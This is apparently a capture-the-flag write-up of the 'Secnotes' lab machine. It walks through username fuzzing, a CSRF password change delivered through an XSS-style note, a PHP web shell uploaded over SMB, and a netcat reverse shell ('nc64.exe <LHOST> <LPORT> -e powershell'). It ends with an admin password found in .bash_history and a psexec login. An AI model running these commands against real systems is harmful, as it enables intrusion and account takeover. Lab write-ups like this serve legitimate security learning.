 # Secnotes

<details>
<summary><strong>Summary</strong></summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine.

Scan the machine and find a login page on port 80 that is running php version 7.2.7. Check for valid usernames using a fuzzing attack with the `wfuzz` tool and find `tyler`. Find that when a note is created, the website doesn't sanitize inputs and executes HTML directly. In the contactUs form, find that the command is run in powershell. Use this and the `Change Password` URL to change tyler's password. Once in Tyler's notes, find an smb share. Use that to gain initial access and a shell. Find bash installed on the machine and run it. Find the `.bash_history` file and find an administrator password. Exploit it to get root.

<summary><strong>What I Learned</strong></summary>
<body>

1. Always check the desktop directory of the user you just compromised. In these machines, there is usually good information there. I missed it this time and had to go back an hour later.
2. A bash shell running in windows can often get you root access to files that the inital user does not have access to.
3. The SMB share goes both ways. You can use inital access to upload a file like netcat or a meterpreter shell.
</body>
</details>

### Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports

![alt text](image.png)
![alt text](image-1.png)

Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```

![alt text](image-3.png)

#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  ![alt text](image-4.png)

#### Create a note and add \<center\> tags to the content of the pages

![alt text](image-5.png)

#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS

![alt text](image-6.png)

Create an html file with an iframe in it linking to the url in the password reset page from burp.
![alt text](image-10.png)

Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.
![alt text](image-8.png)

It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.
![alt text](image-9.png)

Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.
![alt text](image-11.png)

Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  
![alt text](image-12.png)

Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  
![alt text](image-13.png)

check the user and find you are running as the root user  
![alt text](image-14.png)

`cd` to mnt (mount) which is where the C drive is
Try `cd /root`
![alt text](image-15.png)

find the `.bash_history` file which contains an admin user and password
![alt text](image-16.png)

Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
